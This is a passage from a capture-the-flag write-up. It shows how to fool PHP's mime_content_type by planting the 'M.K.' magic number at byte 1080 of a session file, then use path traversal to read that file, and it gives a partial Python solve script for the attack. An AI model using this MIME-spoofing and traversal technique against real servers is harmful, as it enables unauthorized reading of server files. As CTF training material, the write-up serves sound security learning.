 In [line 70 - 71](https://github.com/waviq/PHP/blob/master/Laravel-Orang1/public/filemanager/connectors/php/plugins/rsc/share/magic.mime#L70-L71), there's a MIME type called `audio/x-mod`, and it's magic numbers start from **byte number `1080`**:

```ini
#audio/x-screamtracker-module
1080    string  M.K.        audio/x-mod
```

Nice! We found it! That being said, we can trick PHP function `mime_content_type` to return a MIME type that starts with `audio`!!

## Exploitation

Armed with above information, our exploitation steps are:

1. Append the `audio/x-screamtracker-module` magic number `M.K.` at byte number `1080` via GET route `/` with `theme` parameter
2. Path traversal to read our session file at `/tmp/sess_<PHPSESSID>` via GET route `/audio.php` with `f` parameter

Let's write a solve script to get the flag!

```python
#!/usr/bin/env python3
import requests
import re
from threading import Thread

PHP_SESSION_NAME = 'PHPSESSID'
PHP_SESSION_FILE_LOCATION = '/tmp/sess_'
MAGIC_BYTE_NUMBER = 1080
MAGIC_NUMBER = 'M.K.'
PATH_TRAVERSAL = '../../../../../../../'
FLAG_REGEX = re.compile('(DUCTF\{.*?\})')

def appendMagicNumber(baseUrl, offset):
    sessionFilePrefixLength = len('flag|s:7:"DUCTF{}";theme|s:1337:"";')
    appendedSessionFileContent = 'A' * (MAGIC_BYTE_NUMBER - sessionFilePrefixLength - offset) 
    appendedSessionFileContent += MAGIC_NUMBER

    themeParameter = f'?theme={appendedSessionFileContent}'
    url = f'{baseUrl}{themeParameter}'
    sessionCookie = requests.get(url).cookies.get(PHP_SESSION_NAME)
    return sessionCookie

def getFlag(baseUrl, sessionCookie, offset):
    fileParameter = f'?f={PATH_TRAVERSAL}{PHP_SESSION_FILE_LOCATION}{sessionCookie}'
    audioUrl = f'{baseUrl}/audio.php{fileParameter}'
    response = requests.get(audioUrl)
    if response.status_code == 403:
        # print('[-] Our session file MIME type did not starts with "audio"')
        return
    elif response.status_code == 404:
        # print('[-] The session file doesn\'t exist')
        return
    
    flag = re.search(FLAG_REGEX, response.text).group(1)
    print(f'\n[+] We successfully tricked the PHP function MIME type to start with "audio" at offset {offset}!')
    print(f'[+] Here\'s the flag: {flag}')
    exit(0)

def exploit(baseUrl, offset):
    print(f'[*] Trying offset {offset}', end='\r')
    sessionCookie = appendMagicNumber(baseUrl, offset)
```